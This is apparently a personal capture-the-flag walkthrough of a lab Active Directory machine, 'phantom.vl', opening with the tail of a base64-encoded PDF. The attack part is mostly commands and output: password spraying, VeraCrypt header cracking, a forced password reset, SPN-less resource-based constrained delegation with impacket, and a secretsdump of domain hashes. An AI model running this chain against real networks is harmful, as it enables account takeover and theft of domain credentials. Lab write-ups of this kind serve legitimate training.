aT/OJ3pW2bc0UpriRT99NN2zyrr7snzSleKqjaprPdJZZc2XfvnaXymTrJd2pLhO6+Plo+n+Bfx8
LKSdrC1Uhnmk29IPlPp4IVUZU+vqeKwVxfG/b36HlNN5+NUnVRlb68qYItSqMk64LJhzcMPswTlz
AT4yl+ADcxB2hnknHDzzK+rL/h7xO+Y3sGVuwO/MB9SR/XdhL3WOqOlqVVkjnLObhb/nXAt/z7kW
/p7dLPw9n8vCP5d4+Af2sfAvX5nhX/J/LfxDyQz/IDHwD1Jz8xe3zV/qb/6yv/lznx38A/fTwT/f
M8O/4JoO/oXEwL/gOm7zZzcH/5x76+DvheGfSx34l/Jf+Hs+i4O/4x46+AfJhX8pMZs/n9dt/tzb
HP6FlwHbJolHje/CnxHWwz0liqtcGJlbntgp0t87tcwLZ8nzGwLy24gKZW5kc3RyZWFtCmVuZG9i
agoKMjAgMCBvYmoKPDwvVHlwZS9Gb250L1N1YnR5cGUvVHJ1ZVR5cGUvQmFzZUZvbnQvQkFBQUFB
K0FyaW1vTkYtUmVndWxhcgovRmlyc3RDaGFyIDAKL0xhc3RDaGFyIDQ4Ci9XaWR0aHNbMCA5NDMg
NTU2IDIyMiA1MDAgNTU2IDgzMyAyNzcgMjc3IDY2NiA1NTYgNTU2IDU1NiAyNzcgNzIyIDMzMwo1
ODMgNzIyIDY2NiA4MzMgNjY2IDU4MyA1MDAgMjIyIDU1NiA1MDAgNTAwIDU1NiA1NTYgMjc3IDY2
NiA3MjIKNTAwIDI3NyA3MjIgNjY2IDcyMiA1NTYgNTU2IDEwMTUgNTU2IDU1NiA2MTAgMjc3IDU1
NiAyNzcgMjc3IDU1Ngo2MTAgXQovRm9udERlc2NyaXB0b3IgMTggMCBSCi9Ub1VuaWNvZGUgMTkg
MCBSCj4+CmVuZG9iagoKMjEgMCBvYmoKPDwvRjEgMjAgMCBSCj4+CmVuZG9iagoKMjIgMCBvYmoK
PDwKL0ZvbnQgMjEgMCBSCi9Qcm9jU2V0Wy9QREYvVGV4dF0KPj4KZW5kb2JqCgoxIDAgb2JqCjw8
L1R5cGUvUGFnZS9QYXJlbnQgMTUgMCBSL1Jlc291cmNlcyAyMiAwIFIvTWVkaWFCb3hbMCAwIDYx
MiA3OTJdL1N0cnVjdFBhcmVudHMgMAovQ29udGVudHMgMiAwIFI+PgplbmRvYmoKCjUgMCBvYmoK
PDwvVHlwZS9TdHJ1Y3RFbGVtCi9TL1N0YW5kYXJkCi9QIDQgMCBSCi9QZyAxIDAgUgovQSA8PC9P
L0xheW91dC9QbGFjZW1lbnQvQmxvY2sKPj4KL0tbMCBdCj4+CmVuZG9iagoKNiAwIG9iago8PC9U
eXBlL1N0cnVjdEVsZW0KL1MvU3RhbmRhcmQKL1AgNCAwIFIKL1BnIDEgMCBSCi9BIDw8L08vTGF5
b3V0L1BsYWNlbWVudC9CbG9jawo+PgovS1sxIF0KPj4KZW5kb2JqCgo3IDAgb2JqCjw8L1R5cGUv
U3RydWN0RWxlbQovUy9TdGFuZGFyZAovUCA0IDAgUgovUGcgMSAwIFIKL0EgPDwvTy9MYXlvdXQv
UGxhY2VtZW50L0Jsb2NrCj4+Ci9LWzIgXQo+PgplbmRvYmoKCjggMCBvYmoKPDwvVHlwZS9TdHJ1
Y3RFbGVtCi9TL1N0YW5kYXJkCi9QIDQgMCBSCi9QZyAxIDAgUgovQSA8PC9PL0xheW91dC9QbGFj
ZW1lbnQvQmxvY2sKPj4KL0tbMyBdCj4+CmVuZG9iagoKOSAwIG9iago8PC9UeXBlL1N0cnVjdEVs
ZW0KL1MvU3RhbmRhcmQKL1AgNCAwIFIKL1BnIDEgMCBSCi9BIDw8L08vTGF5b3V0L1BsYWNlbWVu
dC9CbG9jawo+PgovS1s0IF0KPj4KZW5kb2JqCgoxMCAwIG9iago8PC9UeXBlL1N0cnVjdEVsZW0K
L1MvU3RhbmRhcmQKL1AgNCAwIFIKL1BnIDEgMCBSCi9BIDw8L08vTGF5b3V0L1BsYWNlbWVudC9C
bG9jawo+PgovS1s1IF0KPj4KZW5kb2JqCgoxMSAwIG9iago8PC9UeXBlL1N0cnVjdEVsZW0KL1Mv
U3RhbmRhcmQKL1AgNCAwIFIKL1BnIDEgMCBSCi9BIDw8L08vTGF5b3V0L1BsYWNlbWVudC9CbG9j
awo+PgovS1s2IDcgXQo+PgplbmRvYmoKCjEyIDAgb2JqCjw8L1R5cGUvU3RydWN0RWxlbQovUy9T
dGFuZGFyZAovUCA0IDAgUgovUGcgMSAwIFIKL0EgPDwvTy9MYXlvdXQvUGxhY2VtZW50L0Jsb2Nr
Cj4+Ci9LWzggOSBdCj4+CmVuZG9iagoKMTMgMCBvYmoKPDwvVHlwZS9TdHJ1Y3RFbGVtCi9TL1N0
YW5kYXJkCi9QIDQgMCBSCi9QZyAxIDAgUgovQSA8PC9PL0xheW91dC9QbGFjZW1lbnQvQmxvY2sK
Pj4KL0tbMTAgXQo+PgplbmRvYmoKCjE0IDAgb2JqCjw8L1R5cGUvU3RydWN0RWxlbQovUy9TdGFu
ZGFyZAovUCA0IDAgUgovUGcgMSAwIFIKL0EgPDwvTy9MYXlvdXQvUGxhY2VtZW50L0Jsb2NrCj4+
Ci9LWzExIF0KPj4KZW5kb2JqCgo0IDAgb2JqCjw8L1R5cGUvU3RydWN0RWxlbQovUy9Eb2N1bWVu
dAovUCAyMyAwIFIKL1BnIDEgMCBSCi9LWzUgMCBSICA2IDAgUiAgNyAwIFIgIDggMCBSICA5IDAg
UiAgMTAgMCBSICAxMSAwIFIgIDEyIDAgUiAgMTMgMCBSICAxNCAwIFIgIF0KPj4KZW5kb2JqCgoy
MyAwIG9iago8PC9UeXBlL1N0cnVjdFRyZWVSb290Ci9QYXJlbnRUcmVlIDI0IDAgUgovUm9sZU1h
cDw8L1N0YW5kYXJkL1AKPj4KL0tbNCAwIFIgIF0KPj4KZW5kb2JqCgoyNCAwIG9iago8PC9OdW1z
WwowIFsgNSAwIFIgNiAwIFIgNyAwIFIgOCAwIFIgOSAwIFIgMTAgMCBSIDExIDAgUiAxMSAwIFIg
MTIgMCBSIDEyIDAgUgoxMyAwIFIgMTQgMCBSIF0KXT4+CmVuZG9iagoKMTUgMCBvYmoKPDwvVHlw
ZS9QYWdlcwovUmVzb3VyY2VzIDIyIDAgUgovS2lkc1sgMSAwIFIgXQovQ291bnQgMT4+CmVuZG9i
agoKMjUgMCBvYmoKPDwvVHlwZS9DYXRhbG9nL1BhZ2VzIDE1IDAgUgovUGFnZU1vZGUvVXNlT3V0
bGluZXMKL09wZW5BY3Rpb25bMSAwIFIgL1hZWiBudWxsIG51bGwgMF0KL1N0cnVjdFRyZWVSb290
IDIzIDAgUgovTGFuZyhlbi1VUykKL01hcmtJbmZvPDwvTWFya2VkIHRydWU+Pgo+PgplbmRvYmoK
CjI2IDAgb2JqCjw8L0NyZWF0b3I8RkVGRjAwNTcwMDcyMDA2OTAwNzQwMDY1MDA3Mj4KL1Byb2R1
Y2VyPEZFRkYwMDRDMDA2OTAwNjIwMDcyMDA2NTAwNEYwMDY2MDA2NjAwNjkwMDYzMDA2NTAwMjAw
MDMyMDAzNDAwMkUwMDMyPgovQ3JlYXRpb25EYXRlKEQ6MjAyNDA3MDYxMTUzMDYrMDInMDAnKT4+
CmVuZG9iagoKeHJlZgowIDI3CjAwMDAwMDAwMDAgNjU1MzUgZiAKMDAwMDAwNzQwMCAwMDAwMCBu
IAowMDAwMDAwMDE5IDAwMDAwIG4gCjAwMDAwMDA3MDcgMDAwMDAgbiAKMDAwMDAwODYyNyAwMDAw
MCBuIAowMDAwMDA3NTE2IDAwMDAwIG4gCjAwMDAwMDc2MjYgMDAwMDAgbiAKMDAwMDAwNzczNiAw
MDAwMCBuIAowMDAwMDA3ODQ2IDAwMDAwIG4gCjAwMDAwMDc5NTYgMDAwMDAgbiAKMDAwMDAwODA2
NiAwMDAwMCBuIAowMDAwMDA4MTc3IDAwMDAwIG4gCjAwMDAwMDgyOTAgMDAwMDAgbiAKMDAwMDAw
ODQwMyAwMDAwMCBuIAowMDAwMDA4NTE1IDAwMDAwIG4gCjAwMDAwMDg5OTEgMDAwMDAgbiAKMDAw
MDAwMDcyNyAwMDAwMCBuIAowMDAwMDA2MjI2IDAwMDAwIG4gCjAwMDAwMDYyNDggMDAwMDAgbiAK
MDAwMDAwNjQ0NyAwMDAwMCBuIAowMDAwMDA2OTU3IDAwMDAwIG4gCjAwMDAwMDczMTEgMDAwMDAg
biAKMDAwMDAwNzM0NCAwMDAwMCBuIAowMDAwMDA4Nzc3IDAwMDAwIG4gCjAwMDAwMDg4NzYgMDAw
MDAgbiAKMDAwMDAwOTA2NiAwMDAwMCBuIAowMDAwMDA5MjM1IDAwMDAwIG4gCnRyYWlsZXIKPDwv
U2l6ZSAyNy9Sb290IDI1IDAgUgovSW5mbyAyNiAwIFIKL0lEIFsgPEM0QUQ2NUU5NEZCOTk3OTYx
MTU1Q0FGRkQ2QUMyQjUzPgo8QzRBRDY1RTk0RkI5OTc5NjExNTVDQUZGRDZBQzJCNTM+IF0KL0Rv
Y0NoZWNrc3VtIC8wQTM4N0RBQjYxNTBCMkRCMTg0MzJGMDJENzY2MDQxMwo+PgpzdGFydHhyZWYK
OTQxNAolJUVPRgo=

--===============6932979162079994354==--
```

This looks like base64, this is likely since base64 is safe to copy and paste, so if i decode this then use the output and open it as a PDF i should be able to read it

```python
echo '<base64 contents>' | base64 -d > welcome_template.pdf
```



After opening the file, i now see credentials! No username however so ill have to spray this against a userlist

```python
Ph4nt0m@5t4rt!
```

## Password spray leads to user compromise!

```python
nxc smb dc.phantom.vl -u users.txt -p 'Ph4nt0m@5t4rt!' --continue-on-success                                                       
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.63   445    DC               [-] phantom.vl\Administrator:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\Guest:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\krbtgt:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\DC$:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\svc_sspr:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\rnichols:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\pharrison:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\wsilva:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\elynch:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\nhamilton:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\lstanley:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\bbarnes:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\cjones:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\agarcia:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ppayne:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ssteward:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\wstewart:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\vhoward:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\crose:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\twright:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\fhanson:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\cferguson:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\alucas:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ebryant:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\vlynch:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ghall:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ssimpson:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ccooper:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\vcunningham:Ph4nt0m@5t4rt! STATUS_LOGON_FAILURE
```

Now ill use these credentials to enumerate further

## Enumeration as `ibryant`

```python
nxc smb dc.phantom.vl -u 'ibryant' -p 'Ph4nt0m@5t4rt!' --shares
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\ibryant:Ph4nt0m@5t4rt! 
SMB         10.129.234.63   445    DC               [*] Enumerated shares
SMB         10.129.234.63   445    DC               Share           Permissions     Remark
SMB         10.129.234.63   445    DC               -----           -----------     ------
SMB         10.129.234.63   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.63   445    DC               C$                              Default share
SMB         10.129.234.63   445    DC               Departments Share READ            
SMB         10.129.234.63   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.63   445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.234.63   445    DC               Public          READ            
SMB         10.129.234.63   445    DC               SYSVOL          READ            Logon server share
```

This user has more access on SMB shares

## `Department Share`

```python
smbclient //dc.phantom.vl/'Departments Share' -U 'ibryant'%'Ph4nt0m@5t4rt!' 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul  6 17:25:31 2024
  ..                                DHS        0  Thu Aug 14 12:55:49 2025
  Finance                             D        0  Sat Jul  6 17:25:11 2024
  HR                                  D        0  Sat Jul  6 17:21:31 2024
  IT                                  D        0  Thu Jul 11 15:59:02 2024

		6127103 blocks of size 4096. 2387946 blocks available
smb: \>
```

Three directories, ill download all the shares contents

There is nothing of interest in `Finance`

There is nothing of interest in `HR`

```python
ls -la
total 246276
drwxrwxr-x 3 kali kali     4096 Aug 15 16:22 .
drwxrwxr-x 5 kali kali     4096 Aug 15 16:22 ..
drwxrwxr-x 2 kali kali     4096 Aug 15 16:23 Backup
-rw-r--r-- 1 kali kali 43593728 Aug 15 16:22 mRemoteNG-Installer-1.76.20.24615.msi
-rw-r--r-- 1 kali kali 32498992 Aug 15 16:22 TeamViewerQS_x64.exe
-rw-r--r-- 1 kali kali 80383920 Aug 15 16:22 TeamViewer_Setup_x64.exe
-rw-r--r-- 1 kali kali  9201076 Aug 15 16:22 veracrypt-1.26.7-Ubuntu-22.04-amd64.deb
-rw-r--r-- 1 kali kali 86489296 Aug 15 16:23 Wireshark-4.2.5-x64.exe
```

Several real applications, nothing custom

Inside `Backup` there is a .hc file and after some research i see that the file is a VeraCrypt volume container and there is even a veracrypt deb package here so maybe i can open the backup?

So ill install the newest version from github rather than install this package



Ill download the above version from the official veracrypt website



After trying to open the volume container i see im prompted for a password, i think this is the part where i have to create a wordlist like it said in machine info

## Accessing encrypted volume backup

So ill ask claude to make me a wordlist of possibilities based on the hint given in the machine description

Now i have the list i can work on getting the hash for the .hc file

John does not have a tool to do this, but after some research the first 512 raw binary bytes can be cracked just like a hash!

```python
dd if=Backup/IT_BACKUP_201123.hc of=header.hash bs=512 count=1 
1+0 records in
1+0 records out
512 bytes copied, 0.000353919 s, 1.4 MB/s
```

This made a hash file for me

Now ill use hashcat 

```python
hashcat header.hash -m 13721 ../../phantom_wordlist.txt

header.hash:Phantom2023!
```

After trying some different veracrypt modes and using the claude wordlist i get it to crack!

Now i can open the file!



```python
ls -al /media/veracrypt1     
total 11196
drwx------ 4 kali kali   16384 Jan  1  1970  .
drwxr-xr-x 3 root root    4096 Aug 15 17:10  ..
drwx------ 2 kali kali    1024 Jul  6  2024 '$RECYCLE.BIN'
-rwx------ 1 kali kali   47391 Jul  6  2024  azure_vms_0805.json
-rwx------ 1 kali kali   47391 Jul  6  2024  azure_vms_1023.json
-rwx------ 1 kali kali   47391 Jul  6  2024  azure_vms_1104.json
-rwx------ 1 kali kali   47391 Jul  6  2024  azure_vms_1123.json
-rwx------ 1 kali kali 1012407 Jul  6  2024  splunk_logs_1003
-rwx------ 1 kali kali 1012407 Jul  6  2024  splunk_logs_1102
-rwx------ 1 kali kali 1012407 Jul  6  2024  splunk_logs1203
drwx------ 2 kali kali    1024 Jul  6  2024 'System Volume Information'
-rwx------ 1 kali kali   19348 Jul  6  2024  ticketing_system_backup.zip
-rwx------ 1 kali kali 8191211 Jul  6  2024  vyos_backup.tar.gz
```

I now have the filesytem mounted

`vyos_backup.tar.gz` looks the most interesting, there is nothing in the other files

This looks to be a linux filesystem

```python
vpn {
    sstp {
        authentication {
            local-users {
                username lstanley {
                    password "gB6XTcqVP5MlP7Rc"
                }
            }
            mode "local"
        }
        client-ip-pool SSTP-POOL {
            range "10.0.0.2-10.0.0.100"
        }
        default-pool "SSTP-POOL"
        gateway-address "10.0.0.1"
        ssl {
            ca-certificate "CA"
            certificate "Server"
        }
    }
}
```

Found this in `/config/config.boot`

There doesnt appear to be anything else interesting

## Password spray leads to user compromise

```python
nxc smb dc.phantom.vl -u users.txt -p 'gB6XTcqVP5MlP7Rc' --continue-on-success
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.63   445    DC               [-] phantom.vl\Administrator:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\Guest:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\krbtgt:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\DC$:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [+] phantom.vl\svc_sspr:gB6XTcqVP5MlP7Rc 
SMB         10.129.234.63   445    DC               [-] phantom.vl\rnichols:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\pharrison:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\wsilva:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\elynch:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\nhamilton:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\lstanley:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\bbarnes:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\cjones:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\agarcia:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ppayne:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ibryant:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ssteward:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\wstewart:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\vhoward:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\crose:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\twright:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\fhanson:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\cferguson:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\alucas:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ebryant:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\vlynch:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ghall:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ssimpson:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\ccooper:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE 
SMB         10.129.234.63   445    DC               [-] phantom.vl\vcunningham:gB6XTcqVP5MlP7Rc STATUS_LOGON_FAILURE
```

I now have compromise the user `svc_sspr`

## Enumeration of `svc_sspr`

So ill get bloodhound data and ingest it into bloodhound



This user is apart of remote management users which means i can get access via WINRM



This user also has ForceChangePassword on three users

All three of these users have AllowedToAct on the DC machine account which means i can abuse RBCD, but only `wsilva` is apart of the group `finmanagers` 

## Compromising `wsilva`

```python
bloodyAD --host dc.phantom.vl -d phantom.vl -u 'svc_sspr' -p 'gB6XTcqVP5MlP7Rc' set password 'wsilva' 'Password123!'
[+] Password changed successfully!
```

Ill change the users password

```python
nxc smb dc.phantom.vl -u wsilva -p 'Password123!'                                                      
SMB         10.129.234.63   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:phantom.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.234.63   445    DC               [+] phantom.vl\wsilva:Password123!
```

This user is now compromised, so now ill look at abusing RBCD



## Resource Based Constrained Delegation (RBCD)

https://www.thehacker.recipes/ad/movement/kerberos/delegations/rbcd

https://medium.com/@offsecdeer/a-practical-guide-to-rbcd-exploitation-a3f1a47267d5

After checking the machine account quota, it is set to 0, so i cannot add a machine account and nor do i have access to one. To work around this ill have to use the SPN-less method

```python
rbcd.py -delegate-to "dc$" -dc-ip 10.129.46.60 -action 'read' phantom.vl/wsilva:'Password123!'
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty

rbcd.py -delegate-from 'wsilva' -delegate-to "dc$" -dc-ip 10.129.46.60 -action 'write' phantom.vl/wsilva:'Password123!' 
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] wsilva can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     wsilva       (S-1-5-21-4029599044-1972224926-2225194048-1114)
```

First ill read the attribute then write to it to set the delegation

```python
getTGT.py -hashes :$(pypykatz crypto nt 'Password123!') "phantom.vl/wsilva"
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in wsilva.ccache
```

Then ill grab a TGT for the user configured for delegation, i need to use pypykatz in the command to change the password into an NTLM, the use of an NTLM forces rc4, which in ths case is required

```python
describeTicket.py wsilva.ccache
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key            : 5dc4a686c981d0c04c3c648f4e1cfb9c
[*] User Name                     : wsilva
[*] User Realm                    : PHANTOM.VL
[*] Service Name                  : krbtgt/PHANTOM.VL
[*] Service Realm                 : PHANTOM.VL
[*] Start Time                    : 16/08/2026 14:59:59 PM
[*] End Time                      : 17/08/2026 00:59:59 AM
[*] RenewTill                     : 17/08/2026 14:59:58 PM
[*] Flags                         : (0x50e10000) forwardable, proxiable, renewable, initial, pre_authent, enc_pa_rep
[*] KeyType                       : rc4_hmac
[*] Base64(key)                   : XcSmhsmB0MBMPGSPThz7nA==
[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : krbtgt/PHANTOM.VL
[*]   Service Realm               : PHANTOM.VL
[*]   Encryption type             : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied
```

Then ill use this impacket script to get the ticket session key, as seen above its using rc4 instead of `aes256_cts_hmac_sha1_96` this is the reason i had to use pypykatz

```python
changepasswd.py -newhashes ':5dc4a686c981d0c04c3c648f4e1cfb9c' phantom.vl/wsilva:'Password123!'@dc.phantom.vl
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Changing the password of phantom.vl\wsilva
[*] Connecting to DCE/RPC as phantom.vl\wsilva
[*] Password was changed successfully.
[!] User might need to change their password at next logon because we set hashes (unless password never expires is set).
```

Then ill use that session key and change the hash

```python
KRB5CCNAME=wsilva.ccache getST.py -u2u -impersonate "Administrator" -spn "cifs/dc.phantom.vl" -k -no-pass "phantom.vl/wsilva"
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Impersonating Administrator
[*] Requesting S4U2self+U2U
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.phantom.vl@PHANTOM.VL.ccache
```

Then ill request a CIFS ticket for the administrator

```python
export KRB5CCNAME=Administrator@cifs_dc.phantom.vl@PHANTOM.VL.ccache
```

Then ill export the ticket

```python
secretsdump.py -k -no-pass dc.phantom.vl

...[SNIP]...

[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa2abd9db4f5984e657f834484512117:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:de0c6c1bf90cdc90ed73c2b765793df6:::
phantom.vl\svc_sspr:1103:aad3b435b51404eeaad3b435b51404ee:8ecffccc2f22c1607b8e104296ffbf68:::
PHANTOM.vl\rnichols:1112:aad3b435b51404eeaad3b435b51404ee:6e2c9daa1d71941ea201a79fe134008a:::
PHANTOM.vl\pharrison:1113:aad3b435b51404eeaad3b435b51404ee:744cc56188561af3c16a8d0cd1e758d1:::
PHANTOM.vl\wsilva:1114:aad3b435b51404eeaad3b435b51404ee:5dc4a686c981d0c04c3c648f4e1cfb9c:::
PHANTOM.vl\elynch:1115:aad3b435b51404eeaad3b435b51404ee:753389c36525eaa2182d2366e21cb37e:::
PHANTOM.vl\nhamilton:1116:aad3b435b51404eeaad3b435b51404ee:2d3aa57851c7686d3d3df4c2bf3ebbb8:::
PHANTOM.vl\lstanley:1117:aad3b435b51404eeaad3b435b51404ee:3945cd9505e0eca3621a4b61506a131a:::
PHANTOM.vl\bbarnes:1118:aad3b435b51404eeaad3b435b51404ee:8b86efbee20746efcf97d50081a7ada9:::
PHANTOM.vl\cjones:1119:aad3b435b51404eeaad3b435b51404ee:0253df7e458eedfc1b511ae1eadad057:::
PHANTOM.vl\agarcia:1120:aad3b435b51404eeaad3b435b51404ee:54199065e48fae91d67176d5d2c3d506:::
PHANTOM.vl\ppayne:1121:aad3b435b51404eeaad3b435b51404ee:e628d1e4d23696da908acc1add7efbe4:::
PHANTOM.vl\ibryant:1122:aad3b435b51404eeaad3b435b51404ee:ca996d2266c0e306701b78a06e3c29ab:::
PHANTOM.vl\ssteward:1123:aad3b435b51404eeaad3b435b51404ee:5839c34d11b418846131f6944be80ca6:::
PHANTOM.vl\wstewart:1124:aad3b435b51404eeaad3b435b51404ee:1d2256228378d2093d25f5122981bcde:::
PHANTOM.vl\vhoward:1125:aad3b435b51404eeaad3b435b51404ee:fc97143b237f56c06e0d4f4bff1c7a09:::
PHANTOM.vl\crose:1126:aad3b435b51404eeaad3b435b51404ee:e9ad6ec6bd0ab88c16169b16114b216f:::
PHANTOM.vl\twright:1127:aad3b435b51404eeaad3b435b51404ee:f082f34b171dd47297674c2be83991b7:::
